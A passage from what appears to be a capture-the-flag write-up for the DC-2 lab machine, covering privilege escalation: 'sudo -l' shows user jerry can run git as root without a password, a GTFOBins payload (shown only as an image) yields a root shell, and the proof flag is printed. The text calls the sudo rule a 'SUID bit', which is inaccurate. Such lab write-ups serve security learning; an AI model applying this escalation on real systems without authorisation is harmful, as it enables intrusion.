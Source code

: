 ```
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

We can  use this misconfigured SUID bit to escalaet our privileges.

We can find the this payload on [GTFOBins](https://gtfobins.github.io) as well.

![3](https://github.com/Kunull/Write-ups/assets/110326359/de7e39b6-c6a4-4235-b7b6-3930c18fb997)

If we use the second payload, we get a `root` shell.

```
root@DC-2:/home/jerry# whoami
root
```

We are now the `root` user.

### proof.txt

```
root@DC-2:~# cat proof.txt
95e76ef1154a293d3cfcf606748f6f6d
```
